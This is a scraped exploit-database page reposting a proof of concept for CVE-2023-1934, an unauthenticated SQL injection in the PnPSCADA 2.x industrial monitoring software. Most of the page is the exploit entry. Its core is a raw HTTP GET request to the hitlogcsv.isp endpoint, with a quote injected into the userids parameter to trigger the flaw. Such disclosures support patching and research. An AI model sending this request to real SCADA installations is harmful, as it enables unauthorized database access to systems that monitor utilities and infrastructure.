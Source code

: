 ```yaml
---
title: PnPSCADA 2.x SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172511&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-25
fetch_date: 2025-10-04T11:37:20.530656
---
```


# PnPSCADA 2.x SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for PnPSCADA 2.x SQL Injection CVE-2023-1934

2023-05-24 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172511
# Exploit Title: PnPSCADA v2.x - Unauthenticated PostgreSQL Injection
# Date: 15/5/2023
# Exploit Author: Momen Eldawakhly (Cyber Guy) at Samurai Digital Security Ltd
# Vendor Homepage: https://pnpscada.com/
# Version: PnPSCADA (cross platforms): v2.x
# Tested on: Unix
# CVE : CVE-2023-1934
# Proof-of-Concept: https://drive.google.com/drive/u/0/folders/1r_HMoaU3P0t-04gMM90M0hfdBRi_P0_8

SQLi crashing point:

GET /hitlogcsv.isp?userids=1337'&startdate=
2022-12-138200083A0093A00&enddate=2022-12-138201383A1783A00
HTTP/1.1
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US)
AppleWebKit/534.14 (KHTML, like Gecko) Chrome/9.0.601.0
Safari/534.14
Host: vulnerablepnpscada.int
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)